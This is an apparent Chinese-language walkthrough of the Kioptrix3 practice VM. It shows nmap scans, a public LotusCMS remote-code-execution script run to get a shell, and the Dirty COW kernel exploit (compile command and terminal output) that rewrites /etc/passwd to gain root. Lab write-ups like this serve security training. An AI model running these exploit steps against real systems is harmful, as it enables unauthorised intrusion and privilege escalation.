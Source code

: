 ### 端口扫描

```bash
# Nmap 7.94SVN scan initiated Tue Nov  5 04:07:39 2024 as: nmap -sT --min-rate 10000 -p- -oA nmapscan/port_scan 192.168.217.141
Nmap scan report for kioptrix3.com (192.168.217.141)
Host is up (0.0051s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:6B:AA:CF (VMware)
```

```bash
# Nmap 7.94SVN scan initiated Tue Nov  5 04:09:00 2024 as: nmap -sT -sV -sC -O -p22,80 -oA nmapscan/detail_scan 192.168.217.141
Nmap scan report for kioptrix3.com (192.168.217.141)
Host is up (0.00072s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Ligoat Security - Got Goat? Security ...
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
MAC Address: 00:0C:29:6B:AA:CF (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

`OS details: Linux 2.6.9 - 2.6.33`可以使用脏牛提权

### web渗透

![image-20241105215036083](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241105215036083.png)

老CMS了，找历史漏洞 ` LotusCMS`

https://github.com/Hood3dRob1n/LotusCMS-Exploit/

```bash
/lotusRCE.sh 192.168.217.141 /
```

![image-20241105215914078](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241105215914078.png)

拿到shell

### 内核提权

```
searchsploit -m 40839
```

```
// To use this exploit modify the user values according to your needs.
//   The default is "firefart".
//
// Original exploit (dirtycow's ptrace_pokedata "pokemon" method):
//   https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c
//
// Compile with:
//   gcc -pthread dirty.c -o dirty -lcrypt
//
// Then run the newly create binary by either doing:
//   "./dirty" or "./dirty my-new-password"
//
// Afterwards, you can either "su firefart" or "ssh firefart@..."
//
// DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!
//   mv /tmp/passwd.bak /etc/passwd
```

编译参数

```bash
gcc -pthread dirty.c -o dirty -lcrypt
```

```bash
www-data@Kioptrix3:/tmp$ ./ditty 
./ditty
bash: ./ditty: No such file or directory
www-data@Kioptrix3:/tmp$ ./dirty 
./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 123456

Complete line:
firefart:fi8RL.Us0cfSs:0:0:pwned:/root:/bin/bash
www-data@Kioptrix3:/tmp$ su 
su
Password: 123456

firefart@Kioptrix3:/tmp# id
id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@Kioptrix3:/tmp# whoami
whoami
firefart
```

提权成功